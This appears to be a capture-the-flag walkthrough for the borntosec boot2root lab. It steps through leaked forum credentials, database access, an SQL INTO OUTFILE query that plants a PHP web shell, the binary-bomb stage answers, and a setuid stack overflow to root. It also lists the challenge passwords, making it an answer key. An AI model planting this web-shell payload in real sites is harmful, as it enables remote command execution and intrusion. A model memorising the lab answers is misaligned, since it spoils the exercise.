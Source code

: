 ## Laurie entrypoint starting from /forum

Since we have access to /forum we can start gathering info
Some user are:
- admin
- lmezard
- zaz
- thor
- wandre
- qudevide

In a post we find a login and a password that was misstyped by lmezard
The password is `!q\]Ej?*5K5cy*AJ`

With this we can connect to the forum as lmezard, and this let us this her email on her profile
lmezard email is `laurie@borntosec.net`
Her password is the same than her forum password
Now we can connect as laurie on /webmail

She has 2 mail, one containing db root access we can use on /phpmyadmin

Now we have access to the database 

# Reverse shell
From native SQL QUERY we can create file
The root dir of mysql on the system seems to be /var/lib/mysql/
Except here it looks like we cant create a file anywhere on the system
After a lot of tries everywhere, we discovered we can write inside /forum/templates_c/
To do the reverse shell we can do it in php with the shell_exec command

SELECT '<form method="get"><label><input type="text" name="cmd" value=""></label><button>Exec</button></form><?php if(isset($_GET["cmd"])){ $output = shell_exec($_GET["cmd"]); echo "<pre>$output</pre>"; } ?>' INTO OUTFILE "/var/www/forum/templates_c/sh.php"

Then we can execute command logged in as www-var, wich is the apache2 users
Looking around the system, we find a password file in /home/LOOKATME/password
The credentials inside are : `lmezard:G!@M6f4Eatau{sF"`

They are ftp credentials, when connecting to the ftp server there is pcap file,
We have to extract the archive with tar and sort the file inside
We can automate them in a script and recompile the C file or just
`grep -R getme ft_fun -A 3`
`grep -R return ft_fun -A 3` to sort them manually, there is only 12 char we need

The result we get is : Iheartpwnage
When we sha256 it we get the ssh credentials for the laurie acc `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

Now we're logged in as laurie, we see a 'bomb' software that is a 32 binary
We can reverse it and solve the 6 steps then concatenate the result and we'll have the password for the thor acc

# The bomb
When looking at the reversed code we see some strange stuff like the secret phase that we can activate on stage 4 by adding 'austinpowers'
But it doesnt seem to do anything meaningful, likewise there is some intriguing function like send_mail but it doesnt look activated at all for now
Back to solving each regular step of the bomb ->

1/ Public speaking is very easy.
2/ 1 2 6 24 120 720
3/ 5 t 458
4/ 9
5/ opekma
6/ 4 2 6 3 1 5

Quick notes on step 3:
Solution is 5 t 458 but there can be other
Like 1b2149

Quick notes on step 4:
The rank for which fibonacci = 55
Its 9

Quick notes on step 5:
Solution is opekma but there can be other
Like opekmq

There is probably 2 way to do this challenge, either crack the logic of the mask which we didnt
Or send the whole alphabet to create a table to find the match to 'giants'
abcdef: srveaw
ghijkl: hobpnu
mnopqr: tfgisr
stuvwx: veawho
yz: bp

Quick notes on step 6:
read6 func so we understand the input has 6 char
The first while check that all input are number < 7
Second and third while sets up the linked list according to some rule we dont need to understand
Fourth while and last part of the code is just a simple step through the linked list
And it checks that each node value is lesser than the previous one
*if (current node < next node)*
   *explode*
*current node = next node*
The answer is `4 2 6 3 1 5`
We can verify this by just sending 123456 to check node value right before the last step in gdb

The final password for thor is `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

# Turtle

We have a series of instructions, when visualised with a python script (check script repo)
We get a stylised "SLASH"
When we md5 it we get the password for zaz user: `646da671ca01bb5d84dbb5fb2238dc8e`

# Overflow binary

In zaz repo there is a binary that is vulnerable to a stack overflow 
We can inject a shellcode in it which will get executed with a proper padding
Since the vulnerable binary is setuid with root right the shell we get from the shellcode is as root

We can verify with a `whoami` inside and we have our interactive shell as root on the machine
Hooray!!
